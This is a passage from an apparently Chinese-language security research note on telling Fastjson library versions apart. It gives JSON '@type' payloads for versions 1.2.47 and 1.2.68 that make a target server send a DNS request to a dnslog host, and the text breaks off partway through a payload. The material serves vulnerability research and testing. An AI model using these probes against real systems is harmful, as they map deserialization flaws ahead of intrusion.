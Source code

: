 ## 精确版本号2

对于存在 FastJsonHttpMessageConverter 配置的解析，通常指定了key值或json结构，可通过添加`[]`等方式破坏既定结构，实例：

```json  
[
  {
    "@type": "whatever"
  }
]  
```

![](attachments/Pasted%20image%2020221124153332.png)

## dnslog

在没有回显的情况下，如果可以出网就要考虑dnslog了

前文提到1.2.24版本不会解析 `java.net.URL`
，而在之前的研究中，1.2.47、1.2.68、1.2.80是漏洞的三个里程碑版本，通过`java.lang.Class`、`java.lang.AutoCloseable`、`java.lang.Exception`
来构造dns请求可以准确识别

payload向下兼容版本，

### 1.2.47

```json  
[
  {
    "@type": "java.lang.Class",
    "val": "java.io.ByteArrayOutputStream"
  },
  {
    "@type": "java.io.ByteArrayOutputStream"
  },
  {
    "@type": "java.net.InetSocketAddress"
  {
    "address":,
    "val": "dnslog"
  }
}
]
```

### 1.2.68

```json  
[
  {
    "@type": "java.lang.AutoCloseable",
    "@type": "java.io.ByteArrayOutputStream"
  },
  {
    "@type": "java.io.ByteArrayOutputStream"
  },
  {
    "@type": "java.net.InetSocketAddress"
  {
    "address":,
```
